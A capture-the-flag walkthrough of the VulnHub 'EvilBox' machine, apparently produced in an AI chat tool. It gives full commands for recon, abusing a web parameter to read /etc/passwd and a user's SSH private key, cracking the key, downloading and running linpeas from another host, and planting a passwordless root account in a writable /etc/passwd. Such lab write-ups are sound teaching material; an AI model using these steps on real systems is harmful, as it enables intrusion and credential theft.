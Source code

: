 ## EvilBox VulnHub Challenge Writeup

### Overview

The "EvilBox" VulnHub machine is a penetration testing challenge that involves network reconnaissance, web enumeration to discover a command injection vulnerability, extracting an SSH private key, cracking its passphrase, and finally escalating privileges by modifying the `/etc/passwd` file.

### Reconnaissance

#### Network Scanning

I began by identifying the target machine on the network using `netdiscover` to scan the local subnet.

```shellscript
netdiscover -r 192.168.1.0/24
```

The target machine was identified at `192.168.1.21` with the MAC Address `08:00:27:CE:E5:49` (PCS Systemtechnik GmbH / Oracle VirtualBox virtual NIC).

Next, I performed a comprehensive port scan using `nmap` to identify open services and their versions on the target.

```shellscript
nmap -sS -sV -Pn --min-rate=1000 --max-retries=2 192.168.1.21 -p-
```

**Results:**

- **22/tcp**: `ssh` OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- **80/tcp**: `http` Apache httpd 2.4.38 ((Debian))


#### Web Enumeration (Port 80)

I used `gobuster` to enumerate directories and files on the web server running on port 80.

```shellscript
gobuster dir -u http://192.168.1.21/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
gobuster dir -u http://192.168.1.21/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt
```

The scans revealed a `/secret` directory (Status: 301) and `/server-status` (Status: 403). The `raft-medium-files-lowercase.txt` wordlist also found `index.html` and `robots.txt`.

I inspected the `robots.txt` file:

```shellscript
curl http://192.168.1.21/robots.txt
```

The content was simply `Hello H4x0r`. This didn't immediately provide a direct clue, but `H4x0r` might be a hint for a username or password.

I then focused on the `/secret` directory and ran `gobuster` with various extensions:

```shellscript
gobuster dir -u http://192.168.1.21/secret -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -x php,txt,html
gobuster dir -u http://192.168.1.21/secret -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,bak,html
```

This revealed `/secret/index.html` (Status: 200, Size: 4) and, more importantly, `/secret/evil.php` (Status: 200, Size: 0). The zero size of `evil.php` suggested it might be a blank page or a script that processes input.

### Initial Foothold

#### Command Injection via `evil.php`

Given the name `evil.php` and its zero size, I suspected a command injection vulnerability. I used `ffuf` to fuzz for parameters that might allow command execution.

```shellscript
ffuf -u 'http://192.168.1.21/secret/evil.php?FUZZ=/etc/passwd' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 0
```

The `ffuf` scan quickly identified `command` as a valid parameter, returning a non-zero size response when `command=/etc/passwd` was used.

I confirmed the command injection by using `curl` to read `/etc/passwd`:

```shellscript
curl 'http://192.168.1.21/secret/evil.php?command=/etc/passwd'
```

This successfully displayed the contents of `/etc/passwd`, confirming the command injection. The output revealed a user named `mowree` with a `/bin/bash` shell:

```plaintext
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
```

I also used the command injection to retrieve the hostname:

```shellscript
curl 'http://192.168.1.21/secret/evil.php?command=/etc/hostname'
```

The hostname was `EvilBoxOne`.

#### SSH Key Discovery and Cracking

Knowing the username `mowree`, I looked for potential SSH keys in their home directory using the command injection:

```shellscript
curl 'http://192.168.1.21/secret/evil.php?command=/home/mowree/.ssh/id_rsa'
```

This command successfully retrieved the contents of `mowree`'s private SSH key, which was encrypted. I saved it to a file named `encrypted.txt`:

```shellscript
curl 'http://192.168.1.21/secret/evil.php?command=/home/mowree/.ssh/id_rsa' > encrypted.txt
```

Next, I used `ssh2john` to convert the encrypted SSH key into a hash format suitable for `john` (John the Ripper):

```shellscript
ssh2john encrypted.txt > hash.txt
```

Then, I used `john` with the `rockyou.txt` wordlist to crack the passphrase:

```shellscript
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

`john` successfully cracked the passphrase: `unicorn`.

#### SSH Login as `mowree`

Before attempting to log in, I set the correct permissions for the private key:

```shellscript
chmod 600 encrypted.txt
```

Finally, I used the cracked SSH key to log in as `mowree`:

```shellscript
ssh -i encrypted.txt mowree@192.168.1.21
```

When prompted for the passphrase, I entered `unicorn`. I successfully logged in as `mowree`.

```plaintext
mowree@EvilBoxOne:~$ ls
user.txt
mowree@EvilBoxOne:~$ cat user.txt
56Rbp0soobpzWSVzKh9YOvzGLgtPZQm
```

This was the user flag: `56Rbp0soobpzWSVzKh9YOvzGLgtPZQm`.

### Privilege Escalation

Once logged in as `mowree`, I began enumerating the system for privilege escalation vectors. I checked `sudo` permissions and SUID binaries.

```shellscript
mowree@EvilBoxOne:~$ sudo -l
-bash: sudo: orden no encontrada
mowree@EvilBoxOne:~$ find / -perm -4000 2> /dev/null
```

`sudo` was not found, and the SUID binaries list did not immediately reveal an obvious exploit. I then ran `linpeas.sh` for a more comprehensive enumeration.

```shellscript
wget http://192.168.1.5/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

LinPEAS provided a lot of information. Among the "Interesting writable files owned by me or writable by everyone", it highlighted `/etc/passwd` as world-writable:

```shellscript
mowree@EvilBoxOne:~$ ls -la /etc/passwd
-rw-rw-rw- 1 root root 1398 ago 16  2021 /etc/passwd
```

The `/etc/passwd` file having `rw-rw-rw-` permissions (world-writable) is a critical vulnerability, as it allows any user to modify it. This means I could add a new root user or change an existing user's UID to 0.

I decided to add a new root user to `/etc/passwd`. I added a new entry with UID 0 and GID 0, and an empty password field (or a known password hash if I wanted to set one).

```shellscript
mowree@EvilBoxOne:~$ echo 'eviluser::0:0:root:/root:/bin/bash' >> /etc/passwd
```

This command adds a new user `eviluser` with UID 0 (root), GID 0 (root), and no password.

Finally, I attempted to switch to the newly created `eviluser`:

```shellscript
mowree@EvilBoxOne:~$ su eviluser
```

Since the password field was empty, it allowed direct login.

```plaintext
root@EvilBoxOne:/home/mowree# id
uid=0(root) gid=0(root) grupos=0(root)
```

I had successfully escalated privileges to root!

### Root Flag

With root privileges, I navigated to the `/root` directory to find the final flag.

```shellscript
root@EvilBoxOne:/home/mowree# cd /root
root@EvilBoxOne:~# ls
root.txt
root@EvilBoxOne:~# cat root.txt
36QtXfdJWvdC0VavlPIApUbDlqTsBM
```

**Root Flag:** `36QtXfdJWvdC0VavlPIApUbDlqTsBM`

### Tools Used

- `netdiscover` - Network discovery
- `nmap` - Port scanning and service version detection
- `gobuster` - Directory and file enumeration
- `ffuf` - Web fuzzing for parameters
- `curl` - Interacting with web services and exploiting command injection
- `ssh2john` - Converting SSH private keys to hash format
- `john` - Cracking password hashes
- `ssh` - Secure shell access
- `linpeas.sh` - Linux privilege escalation enumeration script
- `su` - Switching user


### Flags Found

1. **User Flag:** `56Rbp0soobpzWSVzKh9YOvzGLgtPZQm`
2. **Root Flag:** `36QtXfdJWvdC0VavlPIApUbDlqTsBM`


SuggestionsClose suggestions[data-radix-scroll-area-viewport]{scrollbar-width:none;-ms-overflow-style:none;-webkit-overflow-scrolling:touch;}[data-radix-scroll-area-viewport]::-webkit-scrollbar{display:none}Add IntegrationLearn more about command injectionPractice SSH key exploitationDeep dive into /etc/passwd and /etc/shadow vulnerabilitiesExplore other LinPEAS findingsSet up a similar vulnerable VMScroll leftScroll right

